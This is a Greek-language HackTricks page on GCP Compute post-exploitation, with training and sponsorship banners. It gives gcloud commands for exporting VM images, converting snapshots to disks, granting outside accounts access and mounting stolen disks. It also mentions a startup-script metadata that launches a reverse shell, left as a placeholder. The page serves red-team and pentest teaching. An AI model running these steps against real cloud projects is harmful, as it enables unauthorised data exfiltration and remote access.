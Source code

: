 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Για περισσότερες πληροφορίες σχετικά με το Compute και το VPC (Δικτύωση) ελέγξτε:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Εξαγωγή & Επιθεώρηση Εικόνων τοπικά

Αυτό θα επέτρεπε σε έναν επιτιθέμενο να **έχει πρόσβαση στα δεδομένα που περιέχονται μέσα σε ήδη υπάρχουσες εικόνες** ή **να δημιουργήσει νέες εικόνες τρεχουσών VM** και να έχει πρόσβαση στα δεδομένα τους χωρίς να έχει πρόσβαση στην τρέχουσα VM.

Είναι δυνατόν να εξάγουμε μια εικόνα VM σε ένα bucket και στη συνέχεια να την κατεβάσουμε και να την τοποθετήσουμε τοπικά με την εντολή:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Για να εκτελέσει αυτή την ενέργεια, ο επιτιθέμενος μπορεί να χρειαστεί δικαιώματα πάνω στον αποθηκευτικό κάδο και σίγουρα **δικαιώματα πάνω στο cloudbuild**, καθώς είναι η **υπηρεσία** που θα ζητηθεί να εκτελέσει την εξαγωγή.\
Επιπλέον, για να λειτουργήσει αυτό, ο SA του codebuild και ο SA του compute χρειάζονται προνομιακά δικαιώματα.\
Ο SA του cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` χρειάζεται:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Και ο SA `<project-id>-compute@developer.gserviceaccount.com` χρειάζεται:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Εξαγωγή & Επιθεώρηση Στιγμιότυπων & Δίσκων τοπικά

Δεν είναι δυνατόν να εξάγουμε άμεσα στιγμιότυπα και δίσκους, αλλά είναι δυνατόν να **μετατρέψουμε ένα στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα** και ακολουθώντας την **προηγούμενη ενότητα**, να εξάγουμε αυτή την εικόνα για να την επιθεωρήσουμε τοπικά.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Επιθεώρηση μιας Εικόνας δημιουργώντας μια VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε μια εικόνα** ή μέσα σε μια **τρέχουσα VM** από όπου ένας επιτιθέμενος **έχει δημιουργήσει μια εικόνα,** είναι δυνατόν να παραχωρηθεί πρόσβαση σε έναν εξωτερικό λογαριασμό πάνω στην εικόνα:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
και στη συνέχεια δημιουργήστε μια νέα VM από αυτό:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Αν δεν μπορούσατε να δώσετε πρόσβαση στον εξωτερικό σας λογαριασμό μέσω της εικόνας, θα μπορούσατε να εκκινήσετε μια VM χρησιμοποιώντας αυτή την εικόνα στο έργο του θύματος και **να κάνετε τα μεταδεδομένα να εκτελούν ένα reverse shell** για να αποκτήσετε πρόσβαση στην εικόνα προσθέτοντας την παράμετρο:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Με στόχο την πρόσβαση στα **δεδομένα που είναι αποθηκευμένα σε έναν δίσκο ή σε ένα στιγμιότυπο, θα μπορούσατε να μετατρέψετε το στιγμιότυπο σε δίσκο, έναν δίσκο σε εικόνα και να ακολουθήσετε τα προηγούμενα βήματα.**

Ή θα μπορούσατε να **παρέχετε πρόσβαση σε έναν εξωτερικό λογαριασμό** πάνω στον δίσκο (αν το αρχικό σημείο είναι ένα στιγμιότυπο, δώστε πρόσβαση στο στιγμιότυπο ή δημιουργήστε έναν δίσκο από αυτό):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Συνδέστε τον δίσκο** σε μια παρουσίαση:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH into the VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Εντοπίστε τον Δίσκο**: Μόλις μπείτε στο VM, εντοπίστε τον νέο δίσκο καταγράφοντας τις συσκευές δίσκου. Συνήθως, μπορείτε να τον βρείτε ως `/dev/sdb`, `/dev/sdc`, κ.λπ.
3. **Μορφοποιήστε και Συνδέστε τον Δίσκο** (αν είναι νέος ή ακατέργαστος δίσκος):
*   Δημιουργήστε ένα σημείο σύνδεσης:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Συνδέστε τον δίσκο:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Αν **δεν μπορείτε να δώσετε πρόσβαση σε ένα εξωτερικό έργο** στο στιγμιότυπο ή τον δίσκο, ίσως χρειαστεί να **εκτελέσετε αυτές τις ενέργειες μέσα σε μια παρουσία στο ίδιο έργο με το στιγμιότυπο/δίσκο**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
